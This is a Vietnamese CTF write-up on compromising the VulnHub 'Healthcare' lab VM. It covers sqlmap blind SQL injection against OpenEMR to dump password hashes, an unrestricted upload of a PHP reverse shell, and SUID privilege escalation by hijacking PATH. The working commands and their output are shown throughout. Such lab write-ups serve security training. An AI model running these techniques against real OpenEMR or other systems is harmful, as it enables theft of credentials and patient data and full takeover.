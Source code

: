 ```yaml
---
title: Healthcare Writeup - VulnHub
date: "2023-07-28 01:11:07"
categories:
  - CTF Writeup
  - VulnHub
tags:
  - hacking

pin: true
---
```


Download [Healthcare VulnHub](https://www.vulnhub.com/entry/healthcare-1,522/){:target="\_blank"}.

## Enumeration

![Scan Ports](/assets/img/posts/Healthcare/scan-ports.PNG)
_Scan Ports and Services_

```shell
gobuster dir -u http://10.0.2.9/ -w /usr/share/wordlists/Seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 30
```

![Gobuster](/assets/img/posts/Healthcare/gobuster.png)
_Directory fuzzing_

![Openemr login page](/assets/img/posts/Healthcare/openemr-login.PNG)
_Openemr login page_

## Exploitation

Đã biết ứng dụng đang chạy Openemr - một phần mềm mã nguồn mở, quản lý hành nghề y tế gì đó. Đặc biệt hơn, Openemr v4.1.0 chứa lỗ hổng unauthenticated blind SQL injection, có mã [CVE-2012-2115](https://www.cvedetails.com/cve/CVE-2012-2115/){:target="\_blank"}. Sau khi nhấn login, thông tin sẽ được xác thực qua `validateUser.php`. Nếu user tồn tại thì truy vấn sẽ luôn trả về ít nhất 1 hàng. Đồng nghĩa với việc ta có thể chèn payload SQL injection tại đây và thực hiện `Blind SQL Injection`.

Dùng `sqlmap` để khai thác:

```shell
┌──(kali㉿kali)-[~]
└─$ sqlmap -u '10.0.2.9/openemr/interface/login/validateUser.php?u=1' -D openemr -T users -C username,password --dump --batch
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.6#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


.................

Database: openemr
Table: users
[2 entries]
+----------+----------------------------------------------------+
| username | password                                           |
+----------+----------------------------------------------------+
| admin    | 2de89a0a37f4a62dc4fa04f2637efcbba098ab44           |
| medical  | ab24aed5a7c4ad45615cd7e0da816eea39e4895d (medical) |
+----------+----------------------------------------------------+

```

Dump được 2 entries như trên, do tools đã crackhash được pasword của user `medical` nên ta dùng tài khoản này để login vô openemr luôn.

![Openemr Interface](/assets/img/posts/Healthcare/openemr-interface.PNG)
_Giao diện sau khi login Openemr_

## Remote Code Execution

Sau khi đã đặt chân vào trang quản trị của Openemr v4.1.0, chúng ta có thể khai thác vuln mới có mã [CVE-2011-5161](https://www.cvedetails.com/cve/CVE-2011-5161/){:target="\_blank"}, cho phép người dùng upload file bất kì và không có bất cứ validation nào. Điều này giúp chúng ta dễ dàng upload và chạy reverse shell.

Tìm thủ công nơi có thể upload file, khả năng nhất là nơi update thông tin của bệnh nhân/khách hàng. Tiến hành truy cập đến `Patient/Client`>`New/Search`.

![Create New Patient](/assets/img/posts/Healthcare/create-new-patient.PNG)
_Tạo mới 1 Patient_

Sau khi tạo xong, search và click vào Patient vừa tạo. Sau đó di chuyển tới `Documents` > `Patient Information` > `Patient Photograph`

![Patient A](/assets/img/posts/Healthcare/a.PNG)

![Upload Page](/assets/img/posts/Healthcare/upload-page.PNG)

Yah chính nó! Upload reverse shell php lên, chạy file và tạo 1 port listener tại máy local:

![Upload Revshell](/assets/img/posts/Healthcare/upload-revshell.PNG)

![RCE](/assets/img/posts/Healthcare/rce.PNG)
_RCE thành công!_

## Privilege Escalation

```shell
find / -perm -u=s 2>/dev/null
```

```
...
...
/usr/bin/healthcheck
...
...
```

Tiến hành tìm kiếm file SUID thì phát hiện file nhị phân trông lạ lạ này. Kiểm tra tệp này 1 chút:

```shell
sh-4.1$ ls -la /usr/bin/healthcheck
-rwsr-sr-x 1 root root 5813 Jul 29  2020 /usr/bin/healthcheck
```

File nhị phân này chạy dưới quyền root. Tất cả chỉ là thực hiện kiểm tra, Scan hệ thống, ổ đĩa,...

```shell
sh-4.1$ strings /usr/bin/healthcheck
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
```

strings file đó ra thì có xuất hiện 1 số câu lệnh hệ thống, các câu lệnh được gọi không phải đường dẫn tuyệt đối và PATH cũng không được set trong nó. Từ đó, các câu lệnh được gọi trong file này sẽ bị ta thao túng bằng cách tạo 1 file có tên trùng với 1 trong các câu lệnh đó, đồng thời set PATH để file của ta sẽ được thực thi thay thế.

```shell
sh-4.1$ cd /tmp
sh-4.1$ export PATH=$(pwd):$PATH
sh-4.1$ echo "/bin/bash" > clear
```

```shell
sh-4.1$ healthcheck
TERM environment variable not set.
System Health Check

Scanning System
eth2      Link encap:Ethernet  HWaddr 08:00:27:54:37:D4
          inet addr:10.0.2.9  Bcast:10.0.2.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:fe54:37d4/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1481565 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1576879 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:219434428 (209.2 MiB)  TX bytes:1884801187 (1.7 GiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:160 errors:0 dropped:0 overruns:0 frame:0
          TX packets:160 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:17440 (17.0 KiB)  TX bytes:17440 (17.0 KiB)


id
uid=0(root) gid=0(root) groups=0(root),416(apache)
```

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
[root@localhost tmp]# cd /
[root@localhost root]# ls
Desktop/    drakx/        healthcheck.c  sudo.rpm
Documents/  healthcheck*  root.txt       tmp/
[root@localhost root]# cat root.txt
Flag day ne: QnJlYWtUZWFtX0ZsYWdfWE5YWC5DT01fQWhpaGk=
[root@localhost root]# echo "QnJlYWtUZWFtX0ZsYWdfWE5YWC5DT01fQWhpaGk="| base64 -d
BreakTeam_Flag_XNXX.COM_Ahihi
```
